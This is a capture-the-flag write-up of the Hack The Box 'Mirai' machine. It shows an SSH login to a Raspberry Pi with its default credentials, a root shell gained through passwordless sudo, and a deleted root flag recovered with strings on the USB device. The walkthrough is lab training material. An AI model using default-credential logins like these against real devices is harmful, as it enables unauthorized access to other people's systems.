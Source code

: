 # Foothold

## User: Pi
- Trying login using default credentials (pi:rasspberry)
```bash
╭─norman@kali ~/Hack-The-Box/machines/mirai ‹main*› 
╰─$ ssh pi@10.10.10.48                                                                    130 ↵
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 14 07:34:34 2021 from 10.10.14.5

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 


```

## User: root
- Running sudo -l
```bash
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo bash
root@raspberrypi:/home/pi# 

```
- We can run sudo without password.
- cat out root.txt
```bash
cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:/home/pi# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  35% /
tmpfs           100M   13M   88M  13% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  35% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
root@raspberrypi:/home/pi# 

```
- Go to /media/usbstick
```bash
cd /media/usbstick
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/media/usbstick# 

```
-  We can check `lost+found` but nothing is there.
-  We can check from [this stackoverflow post](https://stackoverflow.com/questions/11870189/what-is-the-command-dd-if-dev-sdb-do), that even if formatted the data still remains in the device.
-  Therefore using strings on /dev/sdb, we can get the root flag.
```bash
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
---->   ..e4831... <---- [ROOT FLAG]
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:/media/usbstick# 

```
